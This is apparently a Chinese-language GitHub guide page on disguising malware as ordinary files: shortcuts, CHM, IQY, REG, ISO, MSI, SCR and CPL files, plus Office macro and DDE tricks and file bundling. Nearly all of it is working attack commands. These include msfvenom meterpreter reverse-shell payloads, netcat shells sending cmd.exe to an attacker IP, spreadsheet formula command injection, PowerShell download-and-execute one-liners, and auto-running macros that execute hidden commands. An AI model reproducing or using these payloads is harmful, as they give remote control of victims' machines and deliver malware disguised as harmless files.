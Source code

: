### 文件伪装

1. 快捷方式伪装

(1)

[lnk.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/lnk.ps1)

(2)

[ico.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/ico.ps1)

[download.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/download.ps1)

hi.exe:

```bash
msfvenom -p windows/x64/messagebox TEXT='There is payload!' TITLE='Ghost Wolf Lab' -f exe > hi.exe
```

(3)

[ole.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/ole.ps1)

nc.cmd:

```bash
C:\Users\Administrator\Desktop\nc.exe IP地址 4444 -e cmd.exe  
//嵌入攻击者主机IP地址
```

2. CHM文件

[nc.html](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/nc.html)

```bash
nc -lvp 4444
```

nishang:

```bash
Import-Module .\Out-CHM.ps1
out-chm -payload "C:\Users\Administrator\Desktop\nc.exe -e powershell IP地址 5555" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
nc -lvp 5555
```

3. IQY文件

test.iqy:

```bash
WEB
1
https://www.baidu.com/robots.txt
```

calc.dat:

```bash
=cmd|' /C calc'!notthissheet
```

calc.iqy:

```bash
WEB
1
http://IP地址/payload/calc.dat
```

(1)

```bash
Start-CaptureServer -AuthType Basic -IPAddress IP地址 -LogFilePath log.txt
```

login.dat:

```bash
=cmd|' /C start iexplore http://IP地址/'!notthissheet
```

auth.iqy:

```bash
WEB
1
http://IP地址/payload/login.dat
```

(2)

```bash
=cmd|' /C C:\Users\Administrator\Desktop\nc.exe IP地址 4444 -e cmd.exe'!notthissheet
```

```bash
=cmd|' /C powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://IP地址/nishang/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress IP地址 -Port 4444"'!notthissheet
```

4. REG文件

[malicious.reg](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/malicious.reg)

5. VBS文件

[evil.vbs](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.vbs)

6. JScript文件

[evil.js](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.js)

7. ISO文件

```bash
apt-get install genisoimage
mkisofs -o malicious.iso -V "Update" -J -R hi.exe
```

8. MSI文件

```bash
msfvenom执行msfvenom -p windows/x64/messagebox TEXT='Hi,There is a payload!' TITLE='Ghost Wolf Lab' -f msi > evil.msi
```

9. SCR文件

```bash
msfvenom执行msfvenom -p windows/x64/messagebox TEXT='Hi,There is a payload!' TITLE='Ghost Wolf Lab' -f exe > payload.exe
payload.exe > payload.scr
```

10. 联系人文件

(1)

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f dll > shell.dll
```

```bash
http.\\www.ghostwolflab.com.cpl
shell.dll > www.ghostwolflab.com.cpl
```

(2)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=5555 -f vbs > shell.vbs
```

```bash
<a href="vbs\shell.vbs">snowwolf@admin.com</a>
```

11. CPL文件

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f dll > shell.dll
```

### 宏病毒

弹窗宏:

```vba
Private Sub Document_Open()
  MsgBox "Hi,I am snowwolf.", vbOKOnly, "Ghost Wolf Lab"
End Sub
```

1. Metasploit框架生成宏

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f vba-psh > vba
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f vba-exe
```

2. 页面替换宏

[page.vba](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/page.vba)

3. Regsvr32方法

[evil.sct](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.sct)

[Regsvr32下载](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/Regsvr32下载)

4. Author属性

```bash
powershell -NoP -ExecutionPolicy Bypass -Command IEX ((New-Object Net.WebClient).DownloadString('http://IP地址/payload/hacker.ps1'))
```

hacker.ps1 > msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f psh-cmd

```bash
Sub AutoOpen()
    ' 读取Author属性中的恶意代码
    Dim strCmd As String
    strCmd = ActiveDocument.BuiltInDocumentProperties("Author").Value
    ' 执行恶意代码
    Shell strCmd, vbHide
End Sub
```

5. 基于ActiveX的自动运行宏

[嵌入ActiveX自动运行宏](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/嵌入ActiveX自动运行宏)

active.ps1 > msfvenom -p windows/x64/messagebox TEXT='Hi,I am Snowwolf' TITLE='Ghost Wolf Lab' -f psh-cmd > active.ps1

6. 基于Certutil直接下载并运行

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f exe > cer.exe
```

[Certutil下载并运行](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/Certutil下载并运行)

7. 远程模板注入

[远程模板VBA](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/远程模板VBA)

file name = http://192.168.0.189/payload/evil.dotm

8. DDE

```bash
{DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell.exe -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://IP地址/payload/active.ps1')"}
```

Excel:

```bash
=cmd|'/c cmd.exe /c powershell.exe -nop -w hidden iwr -outf %tmp%\\excel.vbs http://IP地址/payload/excel.vbs & %tmp%\\excel.vbs'!'A1'
```

excel.vbs:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f vbs > excel.vbs
```

9. Excel XLM宏

```bash
=EXEC("C:\\Users\\Administrator\\Desktop\\nc.cmd")
=HALT()
```

### 文件捆绑

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=443 -f exe > shell.exe
```

[file_bundler.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/file_bundler.py)

```bash
python file_bundler.py --legit hi.exe --evil shell.exe --output bundled_installer.exe
```

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=443 -x hi.exe -k -f exe > shell.exe
```

### 自解压
